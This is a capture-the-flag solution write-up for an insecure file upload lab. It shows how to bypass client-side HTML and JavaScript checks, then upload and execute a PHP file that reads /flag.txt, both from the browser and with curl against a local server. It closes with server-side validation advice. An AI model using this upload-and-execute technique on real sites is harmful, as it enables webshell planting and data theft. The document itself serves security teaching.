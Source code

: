# Solution: Insecure File Upload Lab

## Option 1: Bypassing the Frontend Checks Manually

The first step is to **inspect the frontend HTML** served at `/upload`. Right-click on the page and select **“Inspect”** or press `F12` to open the Developer Tools in your browser. In the HTML code of the form, you'll notice something like this:

```html
<input type="file" name="file" required accept=".png,.jpg,.jpeg" />
```

The `accept` attribute is what limits the selectable files to only PNG and JPEG images. But **this is purely a client-side check**, meaning it's enforced by the browser interface, not the server. Client-side checks can always be bypassed.

### Step-by-Step Instructions:

1. **Remove the `accept` attribute** from the `<input>` tag using Developer Tools.
   - This will allow you to select any file type via the file picker, including `.php` files.
   - However, upon selecting a file that is not an image, you will immediately see a JavaScript **alert** warning you that "Only image files are allowed."

2. This shows that there's **additional frontend validation using JavaScript**.
   - Even though you've removed the `accept` attribute, the frontend script still enforces restrictions by monitoring the file type.

   ![alt text](js-block.png)

3. To fully bypass this, **disable JavaScript** in your browser:
   - In Chrome: Open Developer Tools, go to the Command Menu (Ctrl+Shift+P), type `Disable JavaScript`, and select the option.
   - Alternatively, you can disable JavaScript in browser settings.
   - With JavaScript disabled, there will be no alert, and you can proceed with uploading any file.

4. Now try uploading a `.php` file, for example, a simple PHP file that reads the flag:

```php
<?php echo file_get_contents('/flag.txt'); ?>
```

5. After uploading, you should receive a message like:

```
File uploaded! Access it at /uploads/shell.php
```

6. Visit the provided URL (e.g. `/uploads/shell.php`) in your browser. You should see the contents of the `flag.txt` file.

---

This method clearly shows how **frontend protections are superficial**. HTML attributes like `accept` and even active JavaScript validations are **not security measures** — they only provide hints to the user. Any user with basic browser tools can modify or bypass these checks entirely.

**The takeaway**: Always perform file validation and filtering on the backend — it's the only place you can trust.

<!-- Screenshot placeholder for file input modification -->
<!-- Screenshot placeholder for shell.php output -->

---

## Option 2: Using `curl -F` to Upload the PHP File

If you prefer using the command line or want to avoid dealing with the browser entirely, you can achieve the same result with `curl`.

### Step-by-Step Instructions:

1. Prepare your malicious file `shell.php`:

```php
<?php echo file_get_contents('/flag.txt'); ?>
```

2. Use `curl` to upload it:

```bash
curl -F "file=@shell.php" http://localhost:8080/upload
```

3. You will get a response like:

```
File uploaded! Access it at /uploads/shell.php
```

4. Now visit `http://localhost:8080/uploads/shell.php` in your browser or use `curl` again:

```bash
curl http://localhost:8080/uploads/shell.php
```

You should now see the contents of `/flag.txt`.

---

## Conclusion

This challenge demonstrates how **frontend-only security is not real security**. Relying on client-side HTML attributes or JavaScript to enforce upload restrictions is easily bypassed.

To properly protect against malicious uploads:

- Always perform **server-side validation** of file types and content.
- Use **MIME-type detection** and content inspection libraries.
- Store uploaded files outside of publicly accessible directories or configure your web server to never execute them.
- If executable content must be allowed, sandbox its execution or validate it thoroughly.

Never trust the client. Always validate and sanitize inputs on the server side.

